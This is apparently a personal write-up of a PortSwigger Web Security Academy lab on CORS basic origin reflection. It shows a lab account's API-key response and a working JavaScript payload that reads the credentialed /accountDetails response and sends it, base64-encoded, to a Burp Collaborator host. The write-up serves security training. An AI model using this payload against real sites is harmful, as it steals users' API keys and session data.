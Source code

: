 # [CORS Basic Origin Reflection](https://portswigger.net/web-security/cors/lab-basic-origin-reflection-attack)

The API key I want comes from the following endpoint:

![](_/psa-cors-basic-origin-reflection-20250614-1.png)

```http
HTTP/2 200 OK
Access-Control-Allow-Credentials: true
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 149

{
  "username": "wiener",
  "email": "",
  "apikey": "81itQT1frKM56dwhErqRoDzbZ4uMJgar",
  "sessions": [
    "iGKySC6N7r2cilSmrOAgzR7doBnt4MvD"
  ]
}
```

This endpoint accepts arbitrary `Origin` headers:

![](_/psa-cors-basic-origin-reflection-20250614-3.png)

So, a basic callback to Burp Collaborator succeeds:

```html
<script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get','https://LAB_ID.web-security-academy.net/accountDetails',true);
    req.withCredentials = true;
    req.send();

    function reqListener() {
    	location='//COLLAB_ID.oastify.com/?'+btoa(this.responseText);
    };
</script>
```

![](_/psa-cors-basic-origin-reflection-20250614-2.png)